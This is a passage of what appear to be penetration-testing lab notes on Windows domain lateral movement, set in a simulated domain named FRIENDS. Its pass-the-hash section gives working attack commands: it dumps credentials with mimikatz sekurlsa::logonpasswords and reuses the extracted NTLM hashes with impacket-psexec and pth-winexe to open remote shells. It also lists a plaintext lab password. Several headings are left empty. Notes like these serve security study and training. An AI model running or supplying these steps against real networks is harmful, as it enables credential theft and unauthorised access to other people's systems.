 > We can also test admin accounts with the addition of the -Admin flag.

### RDP PASSWORD GUESSING


## DOMAIN LATERAL MOVEMENT TECHNIQUES

### PASS THE HASH

> compromise a domain client machine (domain user access) escalate privilege of domain user to local admin

> login with rgeller user on domain client

> rgeller is domain user and local admin 

> the compromised scenario has been simulated

> simulate admin user login into domain client

> open notepad as domain admin (FRIENDS\cbing:Password4)

+ NTLM HASH EXTRACTION
```
cmd.exe
--mimikatz.exe
--privilege::debug
--sekurlsa::logonpasswords
--7247e8d4387e76996ff3f18a34316fdd (cbing)
```

+ PASS THE HASH (IMPACKET)
```
impacket-psexec -hashes 00000000000000000000000000000000:7247e8d4387e76996ff3f18a34316fdd FRIENDS/cbing@192.168.174.140 powershell.exe
```

+ PASS THE HASH (PTH)

> pth-winexe -U 
```
Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

+ PASS THE HASH (PSEXEC/METASPLOIT)

+ PASS THE HASH
```
impacket-psexec 'FRIENDS/rgeller@192.168.174.129' -hashes 00000000000000000000000000000000:906cc3291a7fb123ca964eeeca0aff07
```
```
pth-winexe -U FRIENDS/rgeller %00000000000000000000000000000000:906cc3291a7fb123ca964eeeca0aff07 //192.168.174.129 cmd
```

### OVERPASS THE HASH
